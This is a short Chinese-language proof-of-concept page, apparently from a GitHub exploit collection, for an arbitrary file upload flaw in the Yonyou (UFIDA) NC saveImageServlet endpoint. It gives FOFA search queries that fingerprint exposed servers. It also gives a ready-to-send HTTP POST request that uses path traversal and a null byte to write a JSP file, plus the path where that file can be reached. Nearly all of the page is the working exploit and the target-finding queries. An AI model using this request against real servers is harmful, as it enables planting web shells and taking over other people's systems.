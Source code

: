 ## 用友NC_saveImageServlet接口存在文件上传漏洞


## fofa
```
icon_hash="1085941792"  
app="用友-UFIDA-NC"
```

## poc
```
POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../1.jsp%00 HTTP/1.1
Host: 
Content-Type: application/octet-stream
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19

111
```

文件路径`http://ip:port/portal/processxml/1.jsp`

![image](https://github.com/wy876/POC/assets/139549762/be012248-101f-4491-863e-4e71c5312ce4)

![image](https://github.com/wy876/POC/assets/139549762/38da1f69-fe44-4cad-b663-b9dfd632d7dd)

